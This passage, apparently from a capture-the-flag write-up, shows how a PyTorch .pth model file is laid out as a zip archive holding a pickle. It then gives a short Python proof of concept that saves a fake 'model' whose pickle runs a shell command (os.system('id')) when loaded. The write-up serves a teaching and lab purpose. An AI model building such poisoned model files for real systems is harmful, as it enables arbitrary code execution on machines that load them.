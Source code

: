 #### Use Pickle File

These models are Zip archives that have a `.pkl` file in them:

```

jippity@blurry:/models$ file demo_model.pth 
demo_model.pth: Zip archive data, at least v0.0 to extract
jippity@blurry:/models$ unzip -l demo_model.pth
Archive:  demo_model.pth
  Length      Date    Time    Name
---------  ---------- -----   ----
      851  1980-00-00 00:00   smaller_cifar_net/data.pkl
        6  1980-00-00 00:00   smaller_cifar_net/byteorder
     1728  1980-00-00 00:00   smaller_cifar_net/data/0
       64  1980-00-00 00:00   smaller_cifar_net/data/1
    18432  1980-00-00 00:00   smaller_cifar_net/data/2
      128  1980-00-00 00:00   smaller_cifar_net/data/3
  1048576  1980-00-00 00:00   smaller_cifar_net/data/4
      512  1980-00-00 00:00   smaller_cifar_net/data/5
     5120  1980-00-00 00:00   smaller_cifar_net/data/6
       40  1980-00-00 00:00   smaller_cifar_net/data/7
        2  1980-00-00 00:00   smaller_cifar_net/version
       40  1980-00-00 00:00   smaller_cifar_net/.data/serialization_id
---------                     -------
  1075499                     12 files

```

An alternative to poisoning an existing model is just to create a dummy “model” that contains a malicious pickle file. This simple Python / PyTorch POC will work:

```

import torch
import os

class Payload:
    def __reduce__(self):
        return (os.system, ("id",))

sploit = Payload()
torch.save(sploit, 'root_sploit_id.pth')

```

I’ll [install PyTorch](https://pytorch.org/get-started/locally/) and then run this to generate `root_sploit_id.pth`:

```

(venv) oxdf@hacky$ python create_root_payload.py 
(venv) oxdf@hacky$ ls root_sploit_id.pth 
root_sploit_id.pth

```
